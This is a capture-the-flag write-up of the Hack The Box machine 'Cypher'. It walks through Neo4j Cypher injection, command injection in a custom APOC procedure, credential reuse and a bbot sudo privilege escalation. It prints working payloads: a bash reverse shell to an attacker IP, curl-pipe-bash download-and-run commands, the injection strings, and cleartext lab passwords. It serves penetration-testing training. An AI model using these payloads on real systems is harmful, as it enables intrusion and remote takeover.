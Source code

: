 https://app.hackthebox.com/machines/650

## ENUM

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

```
---- Scanning URL: http://cypher.htb/ ----
+ http://cypher.htb/about (CODE:200|SIZE:4986)                                   
+ http://cypher.htb/api (CODE:307|SIZE:0)                                        
+ http://cypher.htb/demo (CODE:307|SIZE:0)                                       
+ http://cypher.htb/index (CODE:200|SIZE:4562)                                   
+ http://cypher.htb/index.html (CODE:200|SIZE:4562)                              
+ http://cypher.htb/login (CODE:200|SIZE:3671)                                   
==> DIRECTORY: http://cypher.htb/testing/
```

No subdomain

In the `Testing` directory I download: **custom-apoc-extension-1.0-SNAPSHOT.jar**

I notice the JavaScript on the login page:

```javascript
// TODO: don't store user accounts in neo4j
function doLogin(e) {
  e.preventDefault();
  var username = $("#usernamefield").val();
  var password = $("#passwordfield").val();
  $.ajax({
    url: '/api/auth',
    type: 'POST',
    contentType: 'application/json',
    data: JSON.stringify({ username: username, password: password }),
    success: function (r) {
      window.location.replace("/demo");
    },
    error: function (r) {
      if (r.status == 401) {
        notify("Access denied");
      } else {
        notify(r.responseText);
      }
    }
  });
}

$("form").keypress(function (e) {
  if (e.keyCode == 13) {
    doLogin(e);
  }
})

$("#loginsubmit").click(doLogin);
```

---

## Initial Access

I will use a Neo4j vulnerability that allows me to extract the user database in the same way as SQLi:

I send a malicious payload:

```json
{"username":"'}) RETURN u //", "password":"x"}
```

It returns an error that reveals the exact command executed:

```
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '$username' return h.value as hash
```

I also find in the downloaded file a custom function:

```java
@Procedure(
   name = "custom.getUrlStatusCode",
   mode = Mode.READ
)
@Description("Returns the HTTP status code for the given URL as a string")
public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
   if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
      url = "https://" + url;
   }

   String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
   Process process = Runtime.getRuntime().exec(command);
   ...
   return Stream.of(new StringOutput(statusCode));
}
```

There is no sanitization of the URL, so I can perform an **RCE**.

I create the file `shell.sh`:

```bash
bash -i >& /dev/tcp/10.10.14.191/4848 0>&1
```

I start a Python web server:
`sudo python3 -m http.server 80`

Then I call the function `custom.getUrlStatusCode` to perform the RCE, downloading and executing my script. Payload sent to `/api/auth`:

```json
{
  "username": "admin' RETURN h.value AS hash UNION CALL custom.getUrlStatusCode('127.0.0.1; curl http://10.10.14.191/shell.sh | bash') YIELD statusCode AS hash RETURN hash;//",
  "password": "x"
}
```

It works… but later I discover `/api/cypher`

This endpoint accepts `?query=` parameter to execute directly:

```
GET /api/cypher?query=CALL custom.getUrlStatusCode('127.0.0.1; curl http://10.10.14.191/shell.sh | bash') HTTP/1.1
```

---

### Explanation of the `/api/auth` Payload

| Segment (inside `username`)                                    | Exact Role                                                                                                   | Escaping Details                        |
| -------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------ | --------------------------------------- |
| **`admin'`**                                                   | Closes the quote opened by the app (`u.name = '<USERNAME>'`). Everything after escapes the original `WHERE`. | Simple quote, valid inside JSON string. |
| **`RETURN h.value AS hash`**                                   | Returns the `hash` column, which the backend expects.                                                        | Plain text.                             |
| **`UNION`**                                                    | Appends a second query block.                                                                                | —                                       |
| **`CALL custom.getUrlStatusCode(...)`**                        | Calls the custom APOC function.                                                                              | —                                       |
| \*\*`('127.0.0.1; curl http://10.10.14.191/shell.sh \| bash')` | Executes reverse shell payload.                                                                              | Injected as part of the argument.       |
| **`YIELD statusCode AS hash`**                                 | Renames the column to `hash` so it matches the expected output.                                              | —                                       |
| **`RETURN hash;`**                                             | Returns the data in the right format.                                                                        | —                                       |
| **`//`**                                                       | Cypher comment – neutralizes the trailing code the backend would add.                                        | JSON-safe.                              |

---

## Own User

`/etc/passwd` reveals user **graphasm**.

In `/home/graphasm/bbot_preset.yml` I find:

```yaml
modules:
  neo4j:
    username: neo4j
    password: cU4btyib.20xtCMCXkBmerhK
```

I check services:

```
tcp   LISTEN ... 127.0.0.1:8000
tcp   LISTEN ... 172.18.0.1:7687   <-- Neo4j
```

I connect:

```
cypher-shell -a neo4j://172.18.0.1:7687 -u neo4j -p cU4btyib.20xtCMCXkBmerhK
```

I explore the DB and find:

```
MATCH (u:USER)-[r]->(h:SHA1) RETURN u.name, type(r), h.value;
| "graphasm" | "SECRET" | "9f54ca4c130be6d529a56dee59dc2b2090e43acf" |
```

The hash doesn’t crack, but trying the same creds from the config (`cU4btyib.20xtCMCXkBmerhK`) for **graphasm** SSH works.

---

## Privilege Escalation → Root

Linpeas finds:

```
/home/graphasm/.config/bbot/secrets.yml
```

Content:

```
neo4j:
  username: neo4j
  password: bbotislife
```

Also, `sudo -L` shows:

```
User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

Exploit with malicious BBOT module:

* Repo: [https://github.com/Housma/bbot-privesc](https://github.com/Housma/bbot-privesc)
* Download: `systeminfo_enum.py` + `preset.yml`

Execute:

```
sudo /usr/local/bin/bbot -t dummy.com -p preset.yml --event-types ROOT
```

The module spawns a root shell:

````
root@cypher:/tmp/.zeroz# cd /root
root@cypher:~# cat root.txt
````
